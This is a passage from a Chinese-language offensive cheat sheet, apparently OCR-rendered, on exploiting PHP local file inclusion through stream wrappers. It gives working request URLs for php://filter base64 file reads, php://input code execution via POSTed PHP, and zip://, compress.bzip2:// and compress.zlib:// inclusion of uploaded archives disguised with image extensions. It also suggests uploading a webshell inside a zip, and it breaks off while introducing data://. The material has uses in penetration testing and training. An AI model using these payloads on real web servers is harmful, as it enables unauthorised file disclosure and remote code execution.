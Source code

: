             ```
            index.php?file1=php://filter/read=convert.base64-encode/resource=file.txt
            ```
          
        *   php://input
          
            ```php
            http://127.0.0.1/include.php?file=php://input
            [POST DATA部分]
            <?php phpinfo(); ?>
            ```

### zip://   bzip2://  zlib://

*   **条件**

    *   allow_url_fopen：无
    *   allow_url_include ：无
*   **作用**
    *   `zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。


*   **用法**
    
    * `zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]`（#编码为%23)
    
        ```url
        http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt  
        
        // 压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传
        ```
        
    * compress.bzip2://file.bz2
    
        ```url
        http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2   
        
        //压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）
        ```
    
    * compress.zlib://file.gz
    
        ```url
        http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz   
        
        //压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）
        ```

- 可以上传一个包含webshell的zip压缩文件。

### data://

*   **条件**
    *   allow_url_fopen：无
    *   allow_url_include：需要开启
*   **作用**
    *   自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

